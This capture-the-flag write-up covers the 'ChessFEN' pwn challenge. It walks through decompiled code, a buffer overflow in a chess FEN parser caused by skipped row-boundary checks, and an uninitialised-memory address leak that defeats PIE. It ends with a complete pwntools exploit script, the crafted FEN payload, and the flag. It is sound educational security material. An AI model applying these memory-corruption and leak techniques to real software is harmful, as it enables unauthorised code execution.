



pwn

# ChessFEN

## Challenge

I've heard of brilliant chess players exploiting en passant before, but
this is something else!

    nc sunshinectf.games 22001

## Solution

### First look

I spent more than half of the CTF on this challenge. Ok, I admit it, I'm
not that great at pwn, but holy shit did it take me a while to figure
this one out. We only get a single x64 binary, here's what we can do
with it:

    chessfen$ ./fen
    Deep(er) Blue(er)
    A (soon to be) very strong chess engine

    6rk/1p3p1p/2n2q2/1NQ2p2/3p4/PP5P/5PP1/2R3K1 w - - 0 28
    1. e4 c5 2. c3 d5 3. exd5 Qxd5 4. d4 Nf6 5. Nf3 Bg4 6. Be2 e6 7. h3 Bh5 8. O-O Nc6 9. Be3 cxd4 10. cxd4 Bb4 11. a3 Ba5 12. Nc3 Qd6 13. Nb5 Qe7 14. Ne5 Bxe2 15. Qxe2 O-O 16. Rac1 Rac8 17. Bg5 Bb6 18. Bxf6 gxf6 19. Nc4 Rfd8 20. Nxb6 axb6 21. Rfd1 f5 22. Qe3 Qf6 23. d5 Rxd5 24. Rxd5  exd5 25. b3 Kh8 26. Qxb6 Rg8 27. Qc5 d4 28. Nd6 f4  29. Nxb7  Ne5 30. Qd5 f3 31. g3 Nd3 32. Rc7 Re8 33. Nd6 Re1+ 34. Kh2 Nxf2 35. Nxf7+ Kg7 36. Ng5+ Kh6 37. Rxh7+ 1-0

    1. Import FEN
    2. Import PGN
    3. Display game board
    4. Analyze game
    5. Compute best move
    6. Exit program
    >

And here's `checksec`'s output:

    Canary                        : ✓
    NX                            : ✓
    PIE                           : ✓
    Fortify                       : ✘
    RelRO                         : Full

Only options 1 and 3 actually do something, the other ones only print
messages which didn't help me one bit. Option 1 when chosen prompts the
user for a chessboard in [Forsyth–Edwards
Notation](https://en.wikipedia.org/wiki/Forsyth%E2%80%93Edwards_Notation).
This is a way to describe the state of a game of chess using only ASCII
characters.

For example, the following string (found on Wikipedia) describes the
starting position of a game:

    rnbqkbnr/pppppppp/8/8/8/8/PPPPPPPP/RNBQKBNR w KQkq - 0 1
    =-----------------------------------------= 
                    first block

The first block of characters describes the rows of the board from
bottom to top, with the `/` character separating each row. Each letter
represents a piece and numbers from 1 to 8 mean that there's n empty
squares on that row. The other blocks of characters are not relevant to
this challenge, so I won't explain what they do.

The binary seems to check whether what you input is actually valid to
some extent. If you just give it gibberish we get an error message and
the program immediately exits.

    > 1

    arstarst
    Corrupt FEN notation.

The `Diplay game board` option prints the board as the FEN notation you
provided described it. What's weird is that if you tell it to print the
board without first providing the board with option 1, it prints a
broken corrupted board. Terminal escape codes are used to color the
board, so I'll have to use images to show how it looks:

If we provide that FEN notation I used as an example before using option
3, it looks just fine though:

### Finding a buffer overflow in the FEN parser

This is a stripped binary, so we don't even know which function is
`main`. Took me a little bit, but eventually I was able to find `main`
and name most variables:

      haxx_env = getenv("HAXX");
      haxx_set = haxx_env != (char *)0x0;
      if ((bool)haxx_set) {
        get_flag();
      }
      puts(/* that big welcome message */);
      while( true ) {
        printf("%s", /* option list */);
        fflush(stdout);
        choice = read_choice();
        if (choice == (char *)0x0) {
          return 0;
        }
        putchar(10);
        choice_num = 0;
        scanf_status = __isoc99_sscanf(choice,"%d",&choice_num);
        if (((scanf_status == 1) && (0 < choice_num)) && (choice_num < 7)) break;
        if ((choice_num == 1337) && (haxx_set != '\0')) {
          puts("Make like a knight and jump!");
          choice = read_choice();
          addr = (code *)strtoul(choice,(char **)0x0,0);
          local_78 = addr;
          (*addr)();
                        /* WARNING: Subroutine does not return */
          exit(1);
        }
        puts("Invalid choice.");
      }
                        /* WARNING: Could not find normalized switch variable to match jumptable */
                        /* WARNING: This code block may not be properly labeled as switch case */
                        /* WARNING: Subroutine does not return */
      exit(0);

On the first few lines we see that the environment variable `HAXX` is
checked, and, if it is set, we get the flag. Unfortunately, we can't
really set environment variables through `nc`, so we'll have to figure
out another way.

We can also see that if `haxx_set` is true, a hidden `1337` option is
unlocked. This option allows us to provide an arbitrary address to be
jumped to. Since this is checked inside the infinite loop, we don't
actually need to set the environment variable, we just need `haxx_set`
to not be zero.

I'm not sure exactly what the scary warnings from Ghidra at the end are
all about, but there was supposed to be a `switch (choice_num)` that
calls the chosen option's function. Ghidra got confused and wasn't able
to decompile the `switch` statement, but you can pretend it's there.

The `read_choice` function is what is used to get the user input. As far
as I can tell, there's no buffer overflow here. It's important to note
that `read_buf` is a global variable.

    char * read_choice(void)

    {
      char *fgets_status;
      
      fgets_status = fgets(&read_buf,1000,stdin);
      if (fgets_status == (char *)0x0) {
        fgets_status = (char *)0x0;
      }
      else {
        fgets_status = strchr(&read_buf,10);
        if (fgets_status != (char *)0x0) {
          *fgets_status = '\0';
        }
        fgets_status = &read_buf;
      }
      return fgets_status;
    }

Well, if `read_choice` is safe, the vulnerability is probably in the FEN
parser. Keep in mind the following is just the part that parses the
first block of the FEN notation, I left the rest out because it's not
really relevant:

    undefined8 option_1(char *input,char *buf)

    {
      input_ptr = input;
      memset(buf,0,76);
      buf_ptr = buf + 56;
      move_ptr(&input_ptr);
      helper = buf_ptr;
      while (buf_ptr = helper, buf <= buf_ptr) {
        update = '\0';
        helper = input_ptr + 1;
        switch(*input_ptr) {
        case '/':
          break;
        default:
          return 0;
        case '1':
        case '2':
        case '3':
        case '4':
        case '5':
        case '6':
        case '7':
        case '8':
          buf_ptr = buf_ptr + (long)*input_ptr + -0x30;
          if (((long)buf_ptr - (long)buf & 7U) == 0) {
            buf_ptr = buf_ptr + -16;
          }
          break;
        case 'B':
          update = '\x03';
          break;
        case 'K':
          update = '\x06';
          break;
        case 'N':
          update = '\x02';
          break;
        case 'P':
          update = '\x01';
          break;
        case 'Q':
          update = '\x05';
          break;
        case 'R':
          update = '\x04';
          break;
        case 'b':
          update = -0x7d;
          break;
        case 'k':
          update = -0x7a;
          break;
        case 'n':
          update = -0x7e;
          break;
        case 'p':
          update = -0x7f;
          break;
        case 'q':
          update = -0x7b;
          break;
        case 'r':
          update = -0x7c;
        }
        input_ptr = helper;
        helper = buf_ptr;
        if (update != '\0') {
          *buf_ptr = update;
          helper = buf_ptr + 1;
          if (((long)(buf_ptr + 1) - (long)buf & 7U) == 0) {
            helper = buf_ptr + -15;
          }
        }
      }
    <snip>

The function receives two arguments: `input` and `buf`. `input` is the
FEN string the user provided and `buf` is the buffer that will store the
chessboard itself after the notation is parsed. `buf` is a 64-byte
`char` array (it's actually a bit longer but it doesn't matter) that
stores each piece in succession, from row 1 to row 8.

Since the FEN notation for some reason lists the rows in reverse order
(from 8 to 1), `buf` needs to be filled from top to bottom. Because of
this `buf_ptr` starts at `buf + 56`, which is the start of the last row.
`move_ptr` is a function that moves `input_ptr` in order to skip
non-alphanumerical characters.

With `input_ptr` pointing to the character in the FEN string, we get
into a loop that will last until `buf_ptr` points to the start of `buf`.
At each iteration, we check which character `input_ptr` is pointing to
and act accordingly.

When we get to end of a row, however, we need to point `buf_ptr` to the
start of the previous row. Since each row is 8 columns long, we need to
do this if `buf_ptr - buf` is a multiple of 8. The way the compiler
chose to do that is by checking if `(buf_ptr - buf) & 7` is equal to
`0`. Because of some magic binary properties, this is equivalent to
checking if `(buf_ptr - buf) % 8` is equal to `0`, but faster since
there's no division.

Anyway, when `buf_ptr` is a multiple of 8 we need to go one row up.
Since we're at the end of a row, we can just subtract `16` from
`buf_ptr`, which is what the code does. This works perfectly if we are
incrementing `buf_ptr` by 1 at each iteration, but that's not always the
case.

If we find a digit in the FEN string, that means the next `n` squares
are empty so we need to add `n` to `buf_str`. The code makes this
addition and then checks to see whether the result is a multiple of 8.
**Here's where the
vulnerability is:** *if we choose the correct digits,* *we can make it
so we skip multiples of 8* *and the pointer is never subtracted.* When
we do this, we can make `buf_ptr` go past the buffer and, if the next
character in the string is a valid letter, we'll be able to overwrite
something after the buffer.

### Using the buffer overflow to overwrite a variable

Cool, so we have a buffer overflow. Can we use it to overwrite
`haxx_set` and fall into that arbitrary jump `if`? Turns out the answer
is **yes**! `haxx_set` is stored *exactly* right
after the buffer, it couldn't be more perfect. Since the buffer is 76
bytes long, we need to make `buf_ptr` point to `buf + 76` and then write
anything not null there.

As we've already seen, `buf_ptr` starts at `buf + 56`. We need to get to
`buf + 76` without stopping at a multiple of 8, otherwise the pointer
will get subtracted.

The string `776B` can get us to 76 and then write something there. I
made a table that shows what the current FEN character the parser is
parsing is and the value of `buf_ptr - buf`:

| FEN   | `buf_ptr - buf` |
|-------|-----------------|
| Start | 56              |
| 7     | 63              |
| 7     | 70              |
| 6     | 76              |
| B     | 77              |

Is this enough? Not really. Since the loop only ends when
`buf_ptr == buf`, it will keep trying to read stuff after the `B` and
we'll get a corrupted FEN error. It does overwrite the byte we wanted
though. We need to make sure we have a "valid looking" FEN:

    776B/3888888888 w KQkq - 0 1

The slash is only there to separate the two parts of the payload: what's
on the left is what moves `buf_ptr` to the correct place and overwrites
the variable; what's on the right let's `buf_ptr` slowly go down to
`buf`. There's absolutely nothing special about what comes after the
first space, it's just there to fill in those other blocks of the FEN
notation.

| FEN   | `buf_ptr - buf`                                      |
|-------|------------------------------------------------------|
| Start | 56                                                   |
| 7     | 63                                                   |
| 7     | 70                                                   |
| 6     | 76                                                   |
| B     | 77 (this overwrites the variable)                    |
| /     | 77 (this does nothing)                               |
| 3     | 64 (multiple of 8, so we subtract 16 after adding 3) |
| 8     | 56                                                   |
| 8     | 48                                                   |
| 8     | 40                                                   |
| 8     | 32                                                   |
| 8     | 24                                                   |
| 8     | 16                                                   |
| 8     | 8                                                    |
| 8     | 0                                                    |

As the table shows, after overwritting the variable, the `3` puts us on
a multiple of 8. After that we just repeat `8` until we eventually get
to `0` and the loop ends.

After importing this FEN, the `1337` option is unlocked and we can jump
to wherever we want:

    1. Import FEN
    2. Import PGN
    3. Display game board
    4. Analyze game
    5. Compute best move
    6. Exit program
    > 1

    776B/3888888888 w KQkq - 0 1

    1. Import FEN
    2. Import PGN
    3. Display game board
    4. Analyze game
    5. Compute best move
    6. Exit program
    > 1337

    Make like a knight and jump!
    help
    zsh: segmentation fault (core dumped)  ./fen

### Garbage or gold?

If this binary didn't have PIE enabled we would have been done; just
look up the address of `get_flag` and be happy. That's not the case
here, however, so we need to somehow leak an address to a known part of
the code.

At the beginning of this writeup, I mentioned that if you print the
board before entering a FEN you get a broken board:

Here's what's actually happening: the board is stored in that `buf`
variable we've been talking about. This buffer is only initialized when
setting a FEN. If you take a look at the code I showed earlier, you'll
see a `memset` right at the beginning of `option_1`. This means that
before this call to `memset`, `buf` contains whatever garbage was
already there.

When printing the board, this garbage is parsed, and, since it's
garbage, we get a garbage board. I think this garbage depends on the
version of glibc being used. In my case, the garbage is actually a stack
address. We can see that when we run the remote, the garbage board I get
is quite different from what I got locally:

Now, I got unlucky and in my version of glibc the garbage board is
actually garbage and doesn't leak a code address. But maybe, just maybe,
the remote one contains something useful? This was kind of a gamble
(that paid of!), but that was my thought process while doing this
challenge.

### Extracting the buffer from the board

Ok, but how do we extract what's on the buffer from the printed board?
If you take a look at `option_1`, you'll notice that some weird numbers
are written to the buffer depending on which piece is being described.
The code does some stuff to turn those into unicode chess characters.

Here's the code for `option_3`, `buf` is the chessboard buffer:

    void option_3(char *buf)

    {
      uint i;
      uint j;
      
      printf("\x1b[%um  a b c d e f g h   \x1b[0m\n",100);
      for (i = 8; i != 0; i = i - 1) {
        printf("\x1b[%um%u ",100,(ulong)i);
        for (j = 0; j < 8; j = j + 1) {
          set_color(((j ^ i) & 1) != 0,buf[(i - 1) * 8 + j]);
        }
        printf("\x1b[0;%um %u",100,(ulong)i);
        puts("\x1b[0m");
      }
      printf("\x1b[%um  a b c d e f g h   \x1b[0m\n",100);
      return;
    }

Ok, all we can see is some escape sequences to color the board and the
`a b c...` that is printed on the top and bottom of the board. Let's go
into `set_color`:

    void set_color(char which_color,char piece)

    {
      uint content;
      uint num;
      
      if (which_color == '\0') {
        content = 0x2a;
      }
      else {
        content = 0x2f;
      }
      if (piece < '\0') {
        num = 0x1e;
      }
      else {
        num = 0x61;
      }
      printf("\x1b[%u;%um",(ulong)num,(ulong)content);
      if (piece == '\0') {
        printf("  ");
      }
      else {
        print_char(piece);
      }
      return;
    }

We can see that a escape sequence is printed and `num` depends on
whether `piece` is positive or negative, interesting. If `piece` is `0`,
two spaces are printed, otherwise we go into `print_char`, where the
real magic happens. Let's take a look at it:

    void print_char(byte piece)

    {
      int magic;
      
      magic = (uint)(piece & 0x7f) << 2;
      putchar((int)(char)(&DAT_00102008)[magic]);
      putchar((int)(char)(&UNK_00102009)[magic]);
      putchar((int)(char)(&UNK_0010200a)[magic]);
      putchar((int)(char)(&UNK_0010200b)[magic]);
      return;
    }

`print_char` zeroes the MSB of `piece` and then shifts it to the left
twice. We then use this `magic` number to index a buffer and apparently
after printing these 4 bytes we somehow get a chess piece? Really, don't
ask me how exactly this works, but it somehow does.

Anyway, it's kind of hard to tell by the code, but each buffer being
indexed by `magic` is actually the same buffer, but each time the
pointer is moved by one byte. Let's call this buffer `magic_buffer`.
This means that we print 4 continuous bytes, with the first one at
`magic_buffer + magic` and the last one at `magic_buffer + magic + 3`.

To make this as clear as possible, *the 4 bytes that get printed depend
on* `magic`. If we somehow figure out a way to get `piece` back from
these 4 bytes, we will be able to tell what was in the chessboard
buffer!

The first step in getting `magic` from the 4 bytes. `magic_buffer` is a
constant, so we just need to find the position of those 4 bytes inside
`magic_buffer`, easy.

With `magic`, we need undo the left-shift and then undo the AND to get
`piece`. The shift can be undone because `magic` is an `int` and `piece`
is a `byte`. This means that no bits of `piece` get thrown out during
the left-shift, so simply right-shifting by 2 should work.

What about the `& 0x7f`? How are we supposed to undo that? This
operation zeroes the MSB of `piece` and there's no way to figure out
whether it was a `1` or a `0`, right? Remember when I mentioned that
`set_color` checks whether `piece` is positive or negative and generates
a escape sequence depending on that? When a number is negative its MSB
is `1` and `0` otherwise, so that's how we can figure out what's
supposed to be on the MSB.

Let's summarize the steps required to extract `piece` from the printed
board:

1.  Get to the first row of the board.
2.  Check the escape sequence used to color the square. If it contains a
    `30`, that means `piece` has `1` as its most significant bit.
3.  Extract the 4 bytes printed by `print_char`.
4.  Figure out where these 4 bytes are in `magic_buffer`, this offset is
    `magic`.
5.  Shift `magic` to the right by two bits.
6.  Depending on step 2, set the MSB to 1.
7.  Done! Now we have a single byte that was contained inside the
    chessboard buffer!

With all that said, now we should be able to figure out what data was
inside the chessboard buffer when the garbage board was printed.
Hopefully that contains an address that allows us to bypass PIE.

### Bypassing PIE

Not every row of the garbage board contains data, so first we need to
take a look at what's there exactly. Here's a table with what's in each
row and what I think that is:

| Row | Data           | Comment                    |
|-----|----------------|----------------------------|
| 8   | 0x00000000     | Nothing                    |
| 7   | 0x7ffec535043e | Looks like a stack address |
| 6   | 0x55d32e9b2d0d | Looks like a code address  |
| 5   | 0x00000002     | Nothing                    |
| 4   | 0x564753d93cb6 | Looks like a code address  |
| 3   | 0x7fffa6a68800 | Looks like a stack address |
| 2   | 0x00000001     | Nothing                    |
| 1   | 0x00000001     | Nothing                    |

Nice! It does seem we have some code addresses. We just have to figure
out where exactly they point to in order to figure out the base of the
binary. I picked the address in row 6 and looked for a instruction whose
address ends in `d0d`. Here's what I found in Ghidra:

Not only does this instruction's address end in `d0d`, but it also comes
**right after a function
call!** This means that the address we found is most likely the saved
return address of that `call` instruction! Great! We just need to
subtract `1d0d` from it and we should have the base of the binary.

### The exploit

    #!/usr/bin/env python3

    import argparse
    from pwn import *

    MAGIC_FEN = b"776B/3888888888 w KQkq - 0 1"
    BUF = b"\x2e\x2e\x2e\x2e\xe2\x99\x9f\x20\xe2\x99\x9e\x20\xe2\x99\x9d\x20\xe2\x99\x9c\x20\xe2\x99\x9b\x20\xe2\x99\x9a\x20\x00\x00\x00\x00\x44\x65\x65\x70\x28\x65\x72\x29\x20\x42\x6c\x75\x65\x28\x65\x72\x29\x0a\x41\x20\x28\x73\x6f\x6f\x6e\x20\x74\x6f\x20\x62\x65\x29\x20\x76\x65\x72\x79\x20\x73\x74\x72\x6f\x6e\x67\x20\x63\x68\x65\x73\x73\x20\x65\x6e\x67\x69\x6e\x65\x0a\x0a\x36\x72\x6b\x2f\x31\x70\x33\x70\x31\x70\x2f\x32\x6e\x32\x71\x32\x2f\x31\x4e\x51\x32\x70\x32\x2f\x33\x70\x34\x2f\x50\x50\x35\x50\x2f\x35\x50\x50\x31\x2f\x32\x52\x33\x4b\x31\x20\x77\x20\x2d\x20\x2d\x20\x30\x20\x32\x38\x0a\x31\x2e\x20\x65\x34\x20\x63\x35\x20\x32\x2e\x20\x63\x33\x20\x64\x35\x20\x33\x2e\x20\x65\x78\x64\x35\x20\x51\x78\x64\x35\x20\x34\x2e\x20\x64\x34\x20\x4e\x66\x36\x20\x35\x2e\x20\x4e\x66\x33\x20\x42\x67\x34\x20\x36\x2e\x20\x42\x65\x32\x20\x65\x36\x20\x37\x2e\x20\x68\x33\x20\x42\x68\x35\x20\x38\x2e\x20\x4f\x2d\x4f\x20\x4e\x63\x36\x20\x39\x2e\x20\x42\x65\x33\x20\x63\x78\x64\x34\x20\x31\x30\x2e\x20\x63\x78\x64\x34\x20\x42\x62\x34\x20\x31\x31\x2e\x20\x61\x33\x20\x42\x61\x35\x20\x31\x32\x2e\x20\x4e\x63\x33\x20\x51\x64\x36\x20\x31\x33\x2e\x20\x4e\x62\x35\x20\x51\x65\x37\x20\x31\x34\x2e\x20\x4e\x65\x35\x20\x42\x78\x65\x32\x20\x31\x35\x2e\x20\x51\x78\x65\x32\x20\x4f\x2d\x4f\x20\x31\x36\x2e\x20\x52\x61\x63\x31\x20\x52\x61\x63\x38\x20\x31\x37\x2e\x20\x42\x67\x35\x20\x42\x62\x36\x20\x31\x38\x2e\x20\x42\x78\x66\x36\x20\x67\x78\x66\x36\x20\x31\x39\x2e\x20\x4e\x63\x34\x20\x52\x66\x64\x38\x20\x32\x30\x2e\x20\x4e\x78\x62\x36\x20\x61\x78\x62\x36\x20\x32\x31\x2e\x20\x52\x66\x64\x31\x20\x66\x35\x20\x32\x32\x2e\x20\x51\x65\x33\x20\x51\x66\x36\x20\x32\x33\x2e\x20\x64\x35\x20\x52\x78\x64\x35\x20\x32\x34\x2e\x20\x52\x78\x64\x35\x20\x20\x65\x78\x64\x35\x20\x32\x35\x2e\x20\x62\x33\x20\x4b\x68\x38\x20\x32\x36\x2e\x20\x51\x78\x62\x36\x20\x52\x67\x38\x20\x32\x37\x2e\x20\x51\x63\x35\x20\x64\x34\x20\x32\x38\x2e\x20\x4e\x64\x36\x20\x66\x34\x20\x20\x32\x39\x2e\x20\x4e\x78\x62\x37\x20\x20\x4e\x65\x35\x20\x33\x30\x2e\x20\x51\x64\x35\x20\x66\x33\x20\x33\x31\x2e\x20\x67\x33\x20\x4e\x64\x33\x20\x33\x32\x2e\x20\x52\x63\x37\x20\x52\x65\x38\x20\x33\x33\x2e\x20\x4e\x64\x36\x20\x52\x65\x31\x2b\x20\x33\x34\x2e\x20\x4b\x68\x32\x20\x4e\x78\x66\x32\x20\x33\x35\x2e\x20\x4e\x78\x66\x37\x2b\x20\x4b\x67\x37\x20\x33\x36\x2e\x20\x4e\x67\x35\x2b\x20\x4b\x68\x36\x20\x33\x37\x2e\x20\x52\x78\x68\x37\x2b\x20\x31\x2d\x30\x0a\x00\x00\x00\x00\x00"

    TARGET = "./fen"
    REMOTE = ("sunshinectf.games", 22001)

    context.log_level = "debug"
    context.terminal = ["tmux", "split-window", "-hf"]
    context.binary = TARGET

    def exploit(r, e):
        # gdb.attach(r)

        r.recvuntil(b"> ")
        r.sendline(b"3")

        r.recvuntil(b"\x1b[100m6 ")

        leak = b""
        for _ in range(8):
            r.recv(2)
            num = r.recv(2)
            r.recv(4)
            substring = r.recv(2)
            if substring != b"  ":
                substring += r.recv(2)
                index = BUF.find(substring)
                source = index >> 2
                if num == b"30":
                    source |= 0x80
                leak += source.to_bytes(1, "little")
            else:
                leak += b"\0"

        leak = int.from_bytes(leak, "little")
        leak_str = f"0x{leak:08x}"
        log.info(f"Leaked address {leak_str}")

        base = leak - 0x1d0d
        base_str = f"0x{base:08x}"
        log.info(f"Base at {base_str}")

        jmp_to = base + 0x1712
        jmp_to_str = f"0x{jmp_to:08x}"
        log.info(f"Jumping to {jmp_to_str}")

        r.recvuntil(b"> ")
        r.sendline(b"1")
        r.sendline(MAGIC_FEN)
        r.sendline(b"1337")
        r.recvline()
        r.sendline(jmp_to_str)
        r.interactive()

    def main():
        parser = argparse.ArgumentParser()
        parser.add_argument("-r", "--remote", action="store_true", dest="remote",
                            help="Run exploit on the remote target.")
        args = parser.parse_args()

        e = ELF(TARGET)
        if args.remote:
            r = remote(*REMOTE)
        else:
            r = process(TARGET)

        exploit(r, e)

    if __name__ == "__main__":
        main()

Flag:
`sun{https://github.com/apple-oss-distributions/Chess/blob/Chess-319/Sources/MBCBoard.mm}`
